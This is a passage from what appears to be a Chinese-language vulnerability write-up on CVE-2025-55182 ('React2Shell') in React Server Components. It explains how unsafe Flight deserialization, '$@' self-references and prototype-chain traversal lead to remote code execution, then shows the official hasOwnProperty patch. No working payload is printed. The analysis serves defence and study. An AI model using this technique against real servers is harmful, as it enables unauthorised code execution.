

3. 第二次 then 链 (解析 `$B1337` -> function)



4. 最终 RCE - Function 执行



注意这个流程中 React **先反序列化** Flight payload, 再验证 next-action (Action ID), 而刚刚的分析中已经指出这个序列化是不安全的, 因此服务器将可能解析恶意 chunk。

在此基础上, 利用 **`$@` 自引用 + 原型链路径穿透** 的组合拳最终拿下 RCE。

## 补丁/修复

对现有 React 的最佳修复方案是立刻恢复快照, 然后更新到最新的补丁版本;

### 官方补丁修复点

最关键的修复点是, 添加 `hasOwnProperty` 检查:

```diff
// packages/react-server-dom-webpack/src/ReactFlightServerReference.js

function requireModule(metadata) {
    var moduleExports = __webpack_require__(metadata[ID]);

-   return moduleExports[metadata[NAME]];
+   if (hasOwnProperty.call(moduleExports, metadata[NAME])) {
+       return moduleExports[metadata[NAME]];
+   }
+   return undefined;
}

// 类似的修复应用于属性访问的其他位置
function getProperty(obj, key) {
-   return obj[key];
+   if (hasOwnProperty.call(obj, key)) {
+       return obj[key];
+   }
+   return undefined;
}
```

`hasOwnProperty` 会强制用户只能访问对象本身的字段, 而非**继承 (extends) 的属性**, `constructor`, `__proto__`, `toString` 等大量预留属性都属于继承; 

## 总结

React2Shell 利用 Flight 反序列化对用户可控 Chunk 的链式访问缺乏限制,攻击者可通过 `$@` 获取任意 Chunk 对象并污染原型链. 伪造带恶意 then 的 thenable. 使服务器在解析 Promise-like 时执行任意代码, 从而实现远程代码执行。

## 参考博客/文章

- [离别歌](https://www.leavesongs.com/) 

- [CVE-2025-55182 React Server Components 反序列化漏洞原理深度分析](https://rustlang.rs/posts/CVE-2025-55182/#231-http-%E8%AF%B7%E6%B1%82%E7%BB%93%E6%9E%84)


>
> **📄 免责声明**：
> -  本文所涉及的安全技术、漏洞分析及相关示例仅用于网络安全研究、教育与防御目的。请勿在未授权的系统、设备或环境中复现、利用或传播文中任何技术细节。
> - 任何基于本文内容从事的违法行为均与作者无关，由行为人自行承担全部法律责任。请严格遵守相关法律法规，合理合法地使用本文信息，以促进更安全的技术生态。